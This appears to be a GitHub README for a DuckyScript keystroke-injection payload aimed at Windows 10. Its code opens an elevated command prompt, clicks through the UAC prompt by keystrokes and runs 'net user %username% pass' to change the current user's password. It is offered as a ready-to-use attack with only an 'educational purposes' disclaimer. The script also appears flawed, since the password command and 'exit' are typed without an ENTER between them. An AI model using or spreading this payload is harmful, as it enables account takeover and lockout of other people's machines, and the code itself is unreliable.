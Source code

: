 # Payload
This very simple payload change current user's password to something you want in just 1,75 seconds !!
Here, password is set to "pass", you can change it. You can also change delay value if the targeted machine is slower

***
# Code

    REM Based on Admin CMD
    REM Target: Windows 10
    REM Set password to whatever you want, here 'pass' is the current user password after executing this
    DELAY 1000
    WINDOWS d
    DELAY 100
    WINDOWS
    DELAY 100
    STRING cmd
    DELAY 100
    CONTROL SHIFT
    ENTER
    DELAY 150
    LEFTARROW
    DELAY 150
    ENTER
    DELAY 150
    STRING net user %username% pass
    DELAY 100
    STRING exit
    DELAY 50
    ENTER
    REM done by zqrk with love, and for educational purposes only!